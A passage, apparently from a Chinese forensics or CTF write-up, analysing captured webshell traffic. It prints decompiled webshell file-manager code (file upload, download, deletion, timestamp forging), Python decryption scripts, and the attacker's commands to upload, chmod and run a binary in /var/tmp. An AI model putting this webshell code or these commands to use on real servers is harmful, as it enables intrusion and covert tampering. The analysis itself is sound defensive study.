                } else if (mode.equalsIgnoreCase("delete")) {
                    result = delete();
                } else if (mode.equalsIgnoreCase("create")) {
                    result.put("msg", create());
                    result.put("status", "success");
                } else if (mode.equalsIgnoreCase("append")) {
                    result.put("msg", append());
                    result.put("status", "success");
                } else if (mode.equalsIgnoreCase("update")) {
                    updateFile();
                    result.put("msg", "ok");
                    result.put("status", "success");
                } else if (mode.equalsIgnoreCase("downloadPart")) {
                    result.put("msg", downloadPart(path, Long.parseLong(blockIndex), Long.parseLong(blockSize)));
                    result.put("status", "success");
                } else {
                    if (mode.equalsIgnoreCase("download")) {
                        download();
                        try {
                            Object so = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                            Method write = so.getClass().getMethod("write", byte[].class);
                            write.invoke(so, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                            so.getClass().getMethod("flush", new Class[0]).invoke(so, new Object[0]);
                            so.getClass().getMethod("close", new Class[0]).invoke(so, new Object[0]);
                        } catch (Exception e) {
                            e.printStackTrace();
                        }
                        return true;
                    }
                    if (mode.equalsIgnoreCase("rename")) {
                        result = renameFile();
                    } else if (mode.equalsIgnoreCase("createFile")) {
                        result.put("msg", createFile());
                        result.put("status", "success");
                    } else if (mode.equalsIgnoreCase("compress")) {
                        zipFile(path, true);
                        result.put("msg", "ok");
                        result.put("status", "success");
                    } else if (mode.equalsIgnoreCase("createDirectory")) {
                        result.put("msg", createDirectory());
                        result.put("status", "success");
                    } else if (mode.equalsIgnoreCase("getTimeStamp")) {
                        result.put("msg", getTimeStamp());
                        result.put("status", "success");
                    } else if (mode.equalsIgnoreCase("updateTimeStamp")) {
                        result.put("msg", updateTimeStamp());
                        result.put("status", "success");
                    } else if (mode.equalsIgnoreCase("check")) {
                        result.put("msg", checkFileHash(path));
                        result.put("status", "success");
                    }
                }
                try {
                    Object so2 = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                    Method write2 = so2.getClass().getMethod("write", byte[].class);
                    write2.invoke(so2, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                    so2.getClass().getMethod("flush", new Class[0]).invoke(so2, new Object[0]);
                    so2.getClass().getMethod("close", new Class[0]).invoke(so2, new Object[0]);
                    return true;
                } catch (Exception e2) {
                    e2.printStackTrace();
                    return true;
                }
            } catch (Throwable e3) {
                e3.printStackTrace();
                result.put("msg", e3.getMessage());
                result.put("status", "fail");
                try {
                    Object so3 = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                    Method write3 = so3.getClass().getMethod("write", byte[].class);
                    write3.invoke(so3, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                    so3.getClass().getMethod("flush", new Class[0]).invoke(so3, new Object[0]);
                    so3.getClass().getMethod("close", new Class[0]).invoke(so3, new Object[0]);
                    return true;
                } catch (Exception e4) {
                    e4.printStackTrace();
                    return true;
                }
            }
        } catch (Throwable th) {
            try {
                Object so4 = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
                Method write4 = so4.getClass().getMethod("write", byte[].class);
                write4.invoke(so4, Encrypt(buildJson(result, true).getBytes("UTF-8")));
                so4.getClass().getMethod("flush", new Class[0]).invoke(so4, new Object[0]);
                so4.getClass().getMethod("close", new Class[0]).invoke(so4, new Object[0]);
            } catch (Exception e5) {
                e5.printStackTrace();
            }
            throw th;
        }
    }

    private String checkFileHash(String path2) throws Exception {
        FileChannel ch = (FileChannel) sessionGetAttribute(this.Session, path2);
        if (ch != null && ch.isOpen()) {
            ch.close();
        }
        byte[] input = getFileData(path2);
        if (input == null || input.length == 0) {
            return null;
        }
        MessageDigest md5 = MessageDigest.getInstance("MD5");
        md5.update(input);
        byte[] byteArray = md5.digest();
        StringBuilder sb = new StringBuilder();
        for (byte b : byteArray) {
            sb.append(String.format("%02x", Byte.valueOf(b)));
        }
        return sb.substring(0, 16);
    }

    private void updateFile() throws Exception {
        FileChannel ch = (FileChannel) sessionGetAttribute(this.Session, path);
        if (ch == null) {
            FileOutputStream fos = new FileOutputStream(path);
            ch = fos.getChannel();
            sessionSetAttribute(this.Session, "fos", fos);
            sessionSetAttribute(this.Session, path, ch);
        }
        synchronized (ch) {
            ch.position(Integer.parseInt(blockIndex) * Integer.parseInt(blockSize));
            ch.write(ByteBuffer.wrap(base64decode(content)));
        }
    }

    private Map<String, String> warpFileObj(File file) {
        Map<String, String> obj = new HashMap<>();
        obj.put("type", file.isDirectory() ? "directory" : "file");
        obj.put("name", file.getName());
        obj.put("size", file.length() + "");
        obj.put("perm", getFilePerm(file));
        obj.put("lastModified", new SimpleDateFormat("yyyy/MM/dd HH:mm:ss").format(new Date(file.lastModified())));
        return obj;
    }

    private boolean isOldJava() {
        String version = System.getProperty("java.version");
        if (version.compareTo("1.7") >= 0) {
            return false;
        }
        return true;
    }

    private String checkExist(String path2) throws Exception {
        File file = new File(path2);
        if (file.exists()) {
            return file.length() + "";
        }
        throw new Exception("");
    }

    private String getFilePerm(File file) throws IllegalAccessException, ClassNotFoundException, IllegalArgumentException, InvocationTargetException {
        String permStr = "";
        if (isWindows()) {
            try {
                permStr = (file.canRead() ? "R" : "-") + "/" + (file.canWrite() ? "W" : "-") + "/" + (file.canExecute() ? "E" : "-");
            } catch (Error e) {
                permStr = (file.canRead() ? "R" : "-") + "/" + (file.canWrite() ? "W" : "-") + "/-";
            }
        } else {
            String version = System.getProperty("java.version");
            if (version.compareTo("1.7") >= 0) {
                try {
                    getClass();
                    Class FilesCls = Class.forName("java.nio.file.Files");
                    getClass();
                    Class PosixFileAttributesCls = Class.forName("java.nio.file.attribute.PosixFileAttributes");
                    getClass();
                    Class PathsCls = Class.forName("java.nio.file.Paths");
                    getClass();
                    Class PosixFilePermissionsCls = Class.forName("java.nio.file.attribute.PosixFilePermissions");
                    Object f = PathsCls.getMethod("get", String.class, String[].class).invoke(PathsCls.getClass(), file.getAbsolutePath(), new String[0]);
                    Object attrs = FilesCls.getMethod("readAttributes", Path.class, Class.class, LinkOption[].class).invoke(FilesCls, f, PosixFileAttributesCls, new LinkOption[0]);
                    Object result = PosixFilePermissionsCls.getMethod("toString", Set.class).invoke(PosixFilePermissionsCls, PosixFileAttributesCls.getMethod("permissions", new Class[0]).invoke(attrs, new Object[0]));
                    permStr = result.toString();
                } catch (Exception e2) {
                }
            } else {
                permStr = (file.canRead() ? "R" : "-") + "/" + (file.canWrite() ? "W" : "-") + "/" + (file.canExecute() ? "E" : "-");
            }
        }
        return permStr;
    }

    private String list() throws Exception {
        File f = new File(path);
        List<Map<String, String>> objArr = new ArrayList<>();
        objArr.add(warpFileObj(new File(".")));
        objArr.add(warpFileObj(new File("..")));
        if (f.isDirectory() && f.listFiles() != null) {
            for (File temp : f.listFiles()) {
                objArr.add(warpFileObj(temp));
            }
        }
        String result = buildJsonArray(objArr, true);
        return result;
    }

    private String show() throws Exception {
        byte[] fileContent = getFileData(path);
        return base64encode(fileContent);
    }

    private byte[] getFileData(String path2) throws IOException {
        ByteArrayOutputStream output = new ByteArrayOutputStream();
        FileInputStream fis = new FileInputStream(new File(path2));
        while (true) {
            int data = fis.read();
            if (data != -1) {
                output.write(data);
            } else {
                fis.close();
                return output.toByteArray();
            }
        }
    }

    private String create() throws Exception {
        FileOutputStream fso = new FileOutputStream(path);
        fso.write(base64decode(content));
        fso.flush();
        fso.close();
        String result = path + "上传完成，远程文件大小:" + new File(path).length();
        return result;
    }

    private Map<String, String> renameFile() throws Exception {
        Map<String, String> result = new HashMap<>();
        File oldFile = new File(path);
        File newFile = new File(newPath);
        if (oldFile.exists() && (oldFile.isFile() & oldFile.renameTo(newFile))) {
            result.put("status", "success");
            result.put("msg", "重命名完成:" + newPath);
        } else {
            result.put("status", "fail");
            result.put("msg", "重命名失败:" + newPath);
        }
        return result;
    }

    private String createFile() throws Exception {
        FileOutputStream fso = new FileOutputStream(path);
        fso.close();
        String result = path + "创建完成";
        return result;
    }

    private String createDirectory() throws Exception {
        File dir = new File(path);
        dir.mkdirs();
        String result = path + "创建完成";
        return result;
    }

    private void download() throws Exception {
        FileInputStream fis = new FileInputStream(path);
        Object so = this.Response.getClass().getMethod("getOutputStream", new Class[0]).invoke(this.Response, new Object[0]);
        Method write = so.getClass().getMethod("write", byte[].class);
        while (true) {
            int data = fis.read();
            if (data != -1) {
                write.invoke(so, Integer.valueOf(data));
            } else {
                so.getClass().getMethod("flush", new Class[0]).invoke(so, new Object[0]);
                so.getClass().getMethod("close", new Class[0]).invoke(so, new Object[0]);
                fis.close();
                return;
            }
        }
    }

    private String append() throws Exception {
        FileOutputStream fso = new FileOutputStream(path, true);
        fso.write(base64decode(content));
        fso.flush();
        fso.close();
        String result = path + "追加完成，远程文件大小:" + new File(path).length();
        return result;
    }

    private Map<String, String> delete() throws Exception {
        Map<String, String> result = new HashMap<>();
        File f = new File(path);
        if (f.exists()) {
            if (f.delete()) {
                result.put("status", "success");
                result.put("msg", path + " 删除成功.");
            } else {
                result.put("status", "fail");
                result.put("msg", "文件" + path + "存在，但是删除失败.");
            }
        } else {
            result.put("status", "fail");
            result.put("msg", "文件不存在.");
        }
        return result;
    }

    private String getTimeStamp() throws Exception {
        DateFormat df = new SimpleDateFormat("yyyy/MM/dd HH:mm:ss");
        File f = new File(path);
        Map<String, String> timeStampObj = new HashMap<>();
        if (f.exists()) {
            getClass();
            Class FilesCls = Class.forName("java.nio.file.Files");
            getClass();
            Class BasicFileAttributesCls = Class.forName("java.nio.file.attribute.BasicFileAttributes");
            getClass();
            Class PathsCls = Class.forName("java.nio.file.Paths");
            Object file = PathsCls.getMethod("get", String.class, String[].class).invoke(PathsCls.getClass(), path, new String[0]);
            Object attrs = FilesCls.getMethod("readAttributes", Path.class, Class.class, LinkOption[].class).invoke(FilesCls, file, BasicFileAttributesCls, new LinkOption[0]);
            Class FileTimeCls = Class.forName("java.nio.file.attribute.FileTime");
            Object createTime = FileTimeCls.getMethod("toMillis", new Class[0]).invoke(BasicFileAttributesCls.getMethod("creationTime", new Class[0]).invoke(attrs, new Object[0]), new Object[0]);
            Object lastAccessTime = FileTimeCls.getMethod("toMillis", new Class[0]).invoke(BasicFileAttributesCls.getMethod("lastAccessTime", new Class[0]).invoke(attrs, new Object[0]), new Object[0]);
            Object lastModifiedTime = FileTimeCls.getMethod("toMillis", new Class[0]).invoke(BasicFileAttributesCls.getMethod("lastModifiedTime", new Class[0]).invoke(attrs, new Object[0]), new Object[0]);
            String createTimeStamp2 = df.format(new Date(((Long) createTime).longValue()));
            String lastAccessTimeStamp = df.format(new Date(((Long) lastAccessTime).longValue()));
            String lastModifiedTimeStamp = df.format(new Date(((Long) lastModifiedTime).longValue()));
            timeStampObj.put("createTime", createTimeStamp2);
            timeStampObj.put("lastAccessTime", lastAccessTimeStamp);
            timeStampObj.put("lastModifiedTime", lastModifiedTimeStamp);
            String result = buildJson(timeStampObj, true);
            return result;
        }
        throw new Exception("文件不存在");
    }

    private boolean isWindows() {
        if (System.getProperty("os.name").toLowerCase().indexOf("windows") >= 0) {
            return true;
        }
        return false;
    }

    private String updateTimeStamp() throws Exception {
        DateFormat df = new SimpleDateFormat("yyyy/MM/dd HH:mm:ss");
        File f = new File(path);
        if (f.exists()) {
            f.setLastModified(df.parse(modifyTimeStamp).getTime());
            if (!isOldJava()) {
                Class PathsCls = Class.forName("java.nio.file.Paths");
                Class BasicFileAttributeViewCls = Class.forName("java.nio.file.attribute.BasicFileAttributeView");
                Class FileTimeCls = Class.forName("java.nio.file.attribute.FileTime");
                Method getFileAttributeView = Class.forName("java.nio.file.Files").getMethod("getFileAttributeView", Path.class, Class.class, LinkOption[].class);
                Object attributes = getFileAttributeView.invoke(Class.forName("java.nio.file.Files"), PathsCls.getMethod("get", String.class, String[].class).invoke(PathsCls.getClass(), path, new String[0]), BasicFileAttributeViewCls, new LinkOption[0]);
                Object createTime = FileTimeCls.getMethod("fromMillis", Long.TYPE).invoke(FileTimeCls, Long.valueOf(df.parse(createTimeStamp).getTime()));
                Object accessTime = FileTimeCls.getMethod("fromMillis", Long.TYPE).invoke(FileTimeCls, Long.valueOf(df.parse(accessTimeStamp).getTime()));
                Object modifyTime = FileTimeCls.getMethod("fromMillis", Long.TYPE).invoke(FileTimeCls, Long.valueOf(df.parse(modifyTimeStamp).getTime()));
                BasicFileAttributeViewCls.getMethod("setTimes", FileTimeCls, FileTimeCls, FileTimeCls).invoke(attributes, modifyTime, accessTime, createTime);
            }
            return "时间戳修改成功。";
        }
        throw new Exception("文件不存在");
    }

    private String downloadPart(String path2, long blockIndex2, long blockSize2) throws Exception {
        int size;
        FileChannel ch = (FileChannel) sessionGetAttribute(this.Session, path2);
        if (ch == null) {
            FileInputStream fis = new FileInputStream(path2);
            ch = fis.getChannel();
            sessionSetAttribute(this.Session, "fis", fis);
            sessionSetAttribute(this.Session, path2, ch);
        }
        ByteBuffer buffer = ByteBuffer.allocate((int) blockSize2);
        synchronized (ch) {
            ch.position(blockIndex2 * blockSize2);
            size = ch.read(buffer);
        }
        byte[] content2 = new byte[size];
        System.arraycopy(buffer.array(), 0, content2, 0, size);
        return base64encode(content2);
    }

    private static void zipFile(String srcDir, boolean KeepDirStructure) throws Exception {
        File file = new File(srcDir);
        String fileName = file.getName();
        FileOutputStream out = new FileOutputStream(new File(srcDir).getParentFile().getAbsolutePath() + File.separator + fileName + ".zip");
        System.currentTimeMillis();
        ZipOutputStream zos = null;
        try {
            try {
                zos = new ZipOutputStream(out);
                File sourceFile = new File(srcDir);
                compress(sourceFile, zos, sourceFile.getName(), KeepDirStructure);
                System.currentTimeMillis();
                if (zos != null) {
                    try {
                        zos.close();
                    } catch (IOException e) {
                        e.printStackTrace();
                    }
                }
            } catch (Exception e2) {
                throw new RuntimeException("zip error from ZipUtils", e2);
            }
        } catch (Throwable th) {
            if (zos != null) {
                try {
                    zos.close();
                } catch (IOException e3) {
                    e3.printStackTrace();
                }
            }
            throw th;
        }
    }

    private static void compress(File sourceFile, ZipOutputStream zos, String name, boolean KeepDirStructure) throws Exception {
        byte[] buf = new byte[102400];
        if (sourceFile.isFile()) {
            zos.putNextEntry(new ZipEntry(name));
            FileInputStream in = new FileInputStream(sourceFile);
            while (true) {
                int len = in.read(buf);
                if (len != -1) {
                    zos.write(buf, 0, len);
                } else {
                    zos.closeEntry();
                    in.close();
                    return;
                }
            }
        } else {
            File[] listFiles = sourceFile.listFiles();
            if (listFiles == null || listFiles.length == 0) {
                if (KeepDirStructure) {
                    zos.putNextEntry(new ZipEntry(name + "/"));
                    zos.closeEntry();
                    return;
                }
                return;
            }
            for (File file : listFiles) {
                if (KeepDirStructure) {
                    compress(file, zos, name + "/" + file.getName(), KeepDirStructure);
                } else {
                    compress(file, zos, file.getName(), KeepDirStructure);
                }
            }
        }
    }
	...
}
```


发现是获取了`/`的文件列表，返回值也印证了这一点。后续的几个包分别获取了：
```plain
/tmp/
/var/
/var/tmp/
```
的列表。
再之后发现：
```java
package sun.yxiw;

...

/* compiled from: FileOperation.java */
/* loaded from: payload-favicondemo(18).ico.class */
public class Auydc {
	...
    public Auydc() {
        mode = "";
        mode += "update";
        path = "";
        path += "/var/tmp/out";
        blockIndex = "";
        blockIndex += "2";
        blockSize = "";
        blockSize += "30720";
        content = "";
        content += "h61Bx+...X2zlQkI5M";
        this.osCharset = Charset.forName(System.getProperty("sun.jnu.encoding"));
    }
	...
}
```
调用了写入文件的功能，往`/var/tmp/out`追加写入了`content`经过Base64解密的内容。再往后找发现有大量的类似追加请求。尝试通过Wireshark的Export Objects导出所有`/favicondemo.ico`，发现有737个文件，编写一个Python脚本从中批量解密并提取保存成java class文件或者txt返回信息：
```python
import os
import re
import base64
from Crypto.Cipher import AES

KEY = b"1f2c8075acd3d118"
DIR = "export"

def decrypt_to_class(data):
    try:
        cipher = AES.new(KEY, AES.MODE_ECB)
        dec = cipher.decrypt(base64.b64decode(data))
        return dec[:-dec[-1]]
    except Exception:
        return b""

chunks = []

def get_sort_key(fname):
    match = re.search(r'\((\d+)\)', fname)
    return int(match.group(1)) if match else 0

files = sorted(os.listdir(DIR), key=get_sort_key)

for fname in files:
    path = os.path.join(DIR, fname)
    with open(path, "rb") as f:
        body = f.read().strip()
    
    data = decrypt_to_class(body)
    
    if data.startswith(b"\xca\xfe\xba\xbe"):
        with open(f"payload-{fname}.class", "wb") as file:
            file.write(data)
            print(f"Dump {fname} as java class file")
    else:
        with open(f"payload-{fname}.txt", "wb") as file:
            file.write(data)
            print(f"Dump {fname} as txt file")
```
一路看过去，发现中间都是在上传，最后检查了一遍Hash：
```java
package sun.pquyv;

...

/* compiled from: FileOperation.java */
/* loaded from: payload-favicondemo(722).ico.class */
public class Yfnc {
	...
    public Yfnc() {
        mode = "";
        mode += "check";
        path = "";
        path += "/var/tmp/out";
        hash = "";
        hash += "a0275c1593af1adb";
        this.osCharset = Charset.forName(System.getProperty("sun.jnu.encoding"));
    }

    private String checkFileHash(String path2) throws Exception {
        FileChannel ch = (FileChannel) sessionGetAttribute(this.Session, path2);
        if (ch != null && ch.isOpen()) {
            ch.close();
        }
        byte[] input = getFileData(path2);
        if (input == null || input.length == 0) {
            return null;
        }
        MessageDigest md5 = MessageDigest.getInstance("MD5");
        md5.update(input);
        byte[] byteArray = md5.digest();
        StringBuilder sb = new StringBuilder();
        for (byte b : byteArray) {
            sb.append(String.format("%02x", Byte.valueOf(b)));
        }
        return sb.substring(0, 16);
    }
	...
}
```

并且给予执行权限：
```java
package net.zlzbr.fsio.vbycsd;

...

/* compiled from: Cmd.java */
/* loaded from: payload-favicondemo(734).ico.class */
public class Xxzrrw {
    public static String cmd;
    public static String path;
    public static String whatever;
    private static String status = "success";
    private Object Request;
    private Object Response;
    private Object Session;
    ...
    public Xxzrrw() {
        cmd = "";
        cmd += "cd /var/tmp/ ;chmod +x out";
        path = "";
        path += "/var/tmp/";
    }
    ...
}
```
然后执行：
```java
package org.zhnnj;

...

/* compiled from: Cmd.java */
/* loaded from: payload-favicondemo(736).ico.class */
public class Imrdoaaxs {
	...
    public Imrdoaaxs() {
        cmd = "";
        cmd += "cd /var/tmp/ ;./out --aes-key IhbJfHI98nuSvs5JweD5qsNvSQ/HHcE/SNLyEBU9Phs=";
        path = "";
        path += "/var/tmp/";
    }
    ...
}
```
得到了一个aes-key：`IhbJfHI98nuSvs5JweD5qsNvSQ/HHcE/SNLyEBU9Phs=`，之后就没有任何HTTP通信了。

# 第三层: 手写Shell

上面的HTTP流之后有一个TCP流通信，Dump出来发现：

```plain
1f000000
33740a2c22b1e703d2f1480b321f3e4cdc8eb50da84ca0a76543b6bbadf60a
24000000
5c8a2365d717d71114b7be5599d5cfff553f2f0b2251505c3f5ada10a77be1bf35852f9c
1e000000
e3ee79aaf91b813d407e18095278046d32c10567fe57d60459d32f6df234
1f000000
bd345efc1465b04f38a410a09ed999e9849a570c27dd75e8d6b8aac5a4f22f
30000000
be53ef2dc360548f22bd7145f4e1733ffeb228db69b28e76ccb65ea9d8e33a709cfae6579a795f4045dbc2f6300cd871
2b000000
2b7991ad1cfcb2c0b334f5ee5cfb1be844f232c5062190e5e7bfb2208ef40aec6cff1aa7df01285fd3a92a
6e000000
8ac33897541bf959bb223309ffa07a25c49245bb988404180f84d7baef2c2ca8dfd669d39d3fa9c9e66b3da81834c7121cad53ffb16b38dcb062b2b3ce1b634f3bac9ed6e161661efb67ab754eb078718c484cb1b9ec873a103035fdc0b28ed418aa11e68b561599b9685ae54b95
69000000
5fb656ee12487f33e75202b3bec1a6728977618d6b221fb887fa90d36cb5ff75949c1ae90608e22fc81a12fb2e576dd2df4330fcbf619b19455dcfe6c9ae2a8e730cf9010dcc3a15f04bec1fa70b051792d4e197cee0f075405b366472711d1d94f5bb349348bf05d5
24000000
410d930f46d9e71c2200eb1fc4ec9986fd2d72ab2c35aa85fe66fa664a3729e3e9a906b6
1f000000
7ccb9636b4b330000914519540b5a3b0bacb6f594c3b03ff582d62084c1af4
```
因为其长度不固定，推测不是ECB和CBC，尝试使用常见的CTR和CFB：
```python
import base64
import binascii
from Crypto.Cipher import AES
from Crypto.Util import Counter

key = base64.b64decode("IhbJfHI98nuSvs5JweD5qsNvSQ/HHcE/SNLyEBU9Phs=")

hex_str = """
1f000000
33740a2c22b1e703d2f1480b321f3e4cdc8eb50da84ca0a76543b6bbadf60a
24000000
5c8a2365d717d71114b7be5599d5cfff553f2f0b2251505c3f5ada10a77be1bf35852f9c
1e000000
e3ee79aaf91b813d407e18095278046d32c10567fe57d60459d32f6df234
1f000000
bd345efc1465b04f38a410a09ed999e9849a570c27dd75e8d6b8aac5a4f22f
30000000
be53ef2dc360548f22bd7145f4e1733ffeb228db69b28e76ccb65ea9d8e33a709cfae6579a795f4045dbc2f6300cd871
2b000000
2b7991ad1cfcb2c0b334f5ee5cfb1be844f232c5062190e5e7bfb2208ef40aec6cff1aa7df01285fd3a92a
6e000000
8ac33897541bf959bb223309ffa07a25c49245bb988404180f84d7baef2c2ca8dfd669d39d3fa9c9e66b3da81834c7121cad53ffb16b38dcb062b2b3ce1b634f3bac9ed6e161661efb67ab754eb078718c484cb1b9ec873a103035fdc0b28ed418aa11e68b561599b9685ae54b95
69000000
5fb656ee12487f33e75202b3bec1a6728977618d6b221fb887fa90d36cb5ff75949c1ae90608e22fc81a12fb2e576dd2df4330fcbf619b19455dcfe6c9ae2a8e730cf9010dcc3a15f04bec1fa70b051792d4e197cee0f075405b366472711d1d94f5bb349348bf05d5
24000000
410d930f46d9e71c2200eb1fc4ec9986fd2d72ab2c35aa85fe66fa664a3729e3e9a906b6
1f000000
7ccb9636b4b330000914519540b5a3b0bacb6f594c3b03ff582d62084c1af4
""".replace('\n', '').replace(' ', '')

data = binascii.unhexlify(hex_str)

chunks = []
i = 0
while i < len(data):
    length = int.from_bytes(data[i:i+4], 'little')
    i += 4
    chunk = data[i:i+length]
    chunks.append(chunk)
    i += length


iv=b'\x00' * 16
print(f"iv:0*16")

print("ctr:")
ctr = Counter.new(128, initial_value=int.from_bytes(iv, 'big'))
cipher_ctr = AES.new(key, AES.MODE_CTR, counter=ctr)
for idx, c in enumerate(chunks):
    dec = cipher_ctr.decrypt(c)
    print(f"{idx}: len{len(dec)}: {dec}")

print("cfb:")
cipher_cfb = AES.new(key, AES.MODE_CFB, iv=iv, segment_size=128)
for idx, c in enumerate(chunks):
    dec = cipher_cfb.decrypt(c)
    print(f"{idx}: len{len(dec)}: {dec}")

iv=b'\xff' * 16
print(f"iv:ff*16")

print("ctr:")
ctr = Counter.new(128, initial_value=int.from_bytes(iv, 'big'))
cipher_ctr = AES.new(key, AES.MODE_CTR, counter=ctr)
for idx, c in enumerate(chunks):
    dec = cipher_ctr.decrypt(c)
    print(f"{idx}: len{len(dec)}: {dec}")

print("cfb:")
cipher_cfb = AES.new(key, AES.MODE_CFB, iv=iv, segment_size=128)
for idx, c in enumerate(chunks):
    dec = cipher_cfb.decrypt(c)
    print(f"{idx}: len{len(dec)}: {dec}")

iv=key[:16]
print(f"iv:key[:16]s")

print("ctr:")
ctr = Counter.new(128, initial_value=int.from_bytes(iv, 'big'))
cipher_ctr = AES.new(key, AES.MODE_CTR, counter=ctr)
for idx, c in enumerate(chunks):
    dec = cipher_ctr.decrypt(c)
    print(f"{idx}: len{len(dec)}: {dec}")

print("cfb:")
cipher_cfb = AES.new(key, AES.MODE_CFB, iv=iv, segment_size=128)
for idx, c in enumerate(chunks):
    dec = cipher_cfb.decrypt(c)
    print(f"{idx}: len{len(dec)}: {dec}")
```
发现没有可读数据：


**代码部分 - 点击展开**

```txt
iv:0*16
ctr:
0: len31: b'\xdc\xcf@\x8fB9"\xb0\xa6\xbf\xc2\x1e\xb6Z\xeb_F\xa9wHg\xd4"w9[j\xb8}\xe0\xf9'
1: len36: b'K%\xd7+\xc2K\\A\xf3\x9b\xff&\xe0G\xe02\xbeLh\xe3\x90\xcf\xd1\xd3;\xd5\x0e \xcd\xda\xd9\xcb\xcc\x0b\xd2{'
2: len30: b'\x04\x8a\xbc\x83<\xdbA8\xf7zdk\xd7\xb7I\xf2~\x91\\],\xc1\x83\xaa\xc0\xc5-N\xfd\xa4'
3: len31: b'\xf8\x19\xc5\x83\xf7-\r*\xd4g\xd6QzX\xa1\x18\x14\xf6,\x1e\xb3f\x85"\xbb\x84H\x0cHz\xd2'
4: len48: b'\xe9\xb5\x887\xfc\x99\xb3I\x13_\x82\x14\xf1\xd4\x02\x86-\xa4\xa6`\x122\x83\x9aDFW\xecj\xb8\xect\x11\xc2\xf9\x86\x95\xdfYD1c\xbd\xba\xc2\x10\xdbg'
5: len43: b'\x00\xd8*\x1cf\xbf\xe0\x1e)\x1c+\x9b\x0bTN_,\x81\xe5\xfdU\x84BD\xc93\x86\xe0\x04~+\x06\xaa7\x9dqU+\xdf\t\xc5\xc2\xbe'
6: len110: b'~w\xdd4\xb39\xb1w\xf8/#N\x8d\xacf}m\xcf\xf03\xd9\x90\x01I\x95&qq\x9d\xbc.\xe5\x80~\xb6\xbb\xa9\x82\xf9\xe1\xf8\xc3\xf6JD\xcdr\x0e\xcafT\x14\xbed\xa1\x0f\x85\xaf\x01\xc0o\xc8\xeeI\xf6\xa8\xb8\xed\x95\x12\x13h\x16\xb9\xe9\n5\x8c\x03\xba\x05\xc1\xaa&P\x94\x00[n\xcf\xd1^ U\xbc^ v\\\x1e\xc6\xcd\x93L0P\x1cF\xd1;'
7: len105: b'\x9e,\x03F\x97\xae\xc4\xd6U\x05\xbe\xd7\x82i\xde*L\xadMNa\xe4\xa6\xf7!F\xe4y\xab\xe9\x9b\x1e\x98w\xd8\x94\xc9\x1a\xba\xec\x9cI\xd7\xeesfhV\xccR%\x95\xbbW\x85N\x08J\xe29\x8e"#IS\xca\xd0\xa2\xe7\xb8\x88\x8d4\xb1\x07\x06\xba\x18jt\xeeB\xcf8n\xc9\xa6\xcb;\x80\x1fz\xc9y\x9a\xed\\1E\xe5\x9a5\xab\xdbT'
8: len36: b'U|H\xd2\x0e\x1cN\t\xd2\x0e\xe3\x93[\x1c\xac[\xc6\x9f\xc7J\x16\x8f9\xd6\xc2\xd5W<\xee\xa9~\xf3\x0b\xfb\xdc\x02'
9: len31: b"|\xbb\xfc3\xae\xae\xab\xca\xd3eg0\t\xa3i\x12\xa7I&\x8b(\x1f=y\xc869'\xd0b\x9d"
cfb:
0: len31: b'\xdc\xcf@\x8fB9"\xb0\xa6\xbf\xc2\x1e\xb6Z\xeb_\x1b\x10\tAv\xef\xde\xff0\x8cze\xaa\xf9\x9d'
1: len36: b"7\x01\xc0&\xa8\x88\xad5\x1d\xa4\xbd]F\nE{Vq\xcf\xbd#\xbe\x7f'\x8d\x0b\xae\xa1\xc17zk$\xfd\x88\x04"
2: len30: b'S\xa69\xb2w\x99\xffT\x9e\x10\x0cIL\xe8mI\x01\xf7\x96\x9dcp"\xdd\xef\xf1P\xf6me'
3: len31: b')\xf7\x99j5\xa9\xd70\x8e\x81\xda\xb6\x0bSY\xd9G.\x0b`\x83\xae\xf7d\x1f\xe9\xff\x80<@\xa6'
4: len48: b'V\x0f\xfc!w\xc5{\x06\xf7"\xcdQ\x1d\x0b\x11\xe1\xb9\xaa\x1cXE\xe8\r\xc1\x83\x15\xe8\r\ti=K\xa3\n\xe1\xbd\xafy\x83a]\xf6\xb75\xcfb\x86\x03'
5: len43: b'W\x85\xe2{o\x8d\xd4\xa3\xdaU^\xdb\xa1\x0bR\x03]\xd9\xf0,$Uv&\x16\r\xab\xd3\xc9\x0c \x91\xbe_CD\xcaza\xafv\x98O'
6: len110: b'\x10Nv\x1c\x0b\xc3B\xc3dh\x1e\xffq.\xab\x94\xf0\xa5\xec\xa3r"\n[\r\x98{\xd8\xa0Y\xd0\xf3\x0b\xe9\xa2C\x01\xaf&`r\xb4\x199\xb6\x93u\x039#\x99\xfb\x03\x83\xd1\xc4\x82\xceV\x91\xd3\xe2\xfbt9\x02\xacz\x86\xaaF\x12u\x9d0\xd9OAS\xfe\x00td\x9e\x16X\xd4\xbf\xb1:\xbb\x94\x13^/\x132~\xb5s\xc0\xef\x1f\xa6q|\xf3\xd2s\xa2'
7: len105: b'\x8fG\x13\xb5L\xe8\xa0\x17\x17\xd2!Uv\xd5\xf4\xd2^\x8a\x05\xe8K>\xb0\xfb\x9d\x8cXQ0\xce3\x9a\x1at\xa9\t\x97Ol\x91{v\xc8\xab\xe8\xbc4\xd1\x16\x1d\x89QX\x87Tu$\x11B\xb7\xb91\xb0n\x13p:F\x9dQ\xbbP$\n\xd9x\xe4\x16\x97\xf2/\xdb"Hm\xf1\x9eG\r\xe3t\xd8\xfa\xc4VKM\xca\x1d&*\x8e\x01(W'
8: len36: b'\x91\x16\xe4x \x12\x9f"\xcbg!G\xa0N\x18\x17<M\xb6\xb9(\xd2\x8f\x17\x1b\xb4c\x06\x0e9\xbd\xef\xa7\xf4\x15\x88'
9: len31: b'\xc8\xff\xb1\xee\x85]\xcflG\xf1\xd9\xb3O\xf1$tZX\xc5k\xdc\x81G\x18\xef:\x8c\x95\xd99\xf5'
iv:ff*16
ctr:
0: len31: b'b\x7f\x8fa\xf5\xcfp\x04\xbfK\xb6\xd9\x0cl+\xd935\xff\xae\xc8\xc4e\x14\x11\r<\xae)\xb3\xdf'
1: len36: b'O\x10\x04\xa7\x92\xd8O\x93\xc4\xeb\xa6\x89\x9a\x05\xd9\x0cB\x90\xdbE7\r\xdb\x0c\xd8v\x9bc\xde\xe9\xcer\xde\xf6ht'
2: len30: b'Qp\xf8%\xfd\x94U\r*\xdf }\xab\xf6\xf9\x8a\xd5\xa5\xc0N;\x97\x16\x01\xee\xd7S\x0fw\xfb'
